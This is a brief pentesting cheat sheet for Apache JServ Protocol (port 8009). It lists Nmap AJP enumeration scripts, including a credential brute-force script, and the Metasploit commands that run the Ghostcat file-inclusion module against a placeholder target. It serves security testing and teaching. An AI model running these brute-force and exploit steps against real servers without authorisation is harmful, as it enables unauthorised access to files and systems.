 ```yaml
---
title: Apache JServ Protocol (AJP) Pentesting
desc: A binary protocol that can proxy inbound requests from a web server through to an application server that sits behind the web server. A default port is 8009.
tags: [8009, AJP, Apache, Metasploit, Nmap, Web]
alts: []
render_with_liquid: false
---
```


## 1. Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ajp-auth -p 8009 <target-ip>
    nmap --script ajp-auth --script-args ajp-auth.path=/login -p 8009 <target-ip>
    nmap --script ajp-brute -p 8009 <target-ip>
    nmap --script ajp-headers -p 8009 <target-ip>
    nmap --script ajp-methods -p 8009 <target-ip>
    nmap --script ajp-request -p 8009 <target-ip>
    ```

<br />

## 2. Vulnerabilities

1. **[Ghostcat File Inclusion](https://www.exploit-db.com/exploits/49039){:target="_blank"}**

    It's a vulnerability of **Tomcat AJP**

    - **Use Metasploit**

        ```sh
        msfconsole
        msf6 > use auxiliary/admin/http/tomcat_ghostcat
        msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts <target-ip>
        msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit
        ```
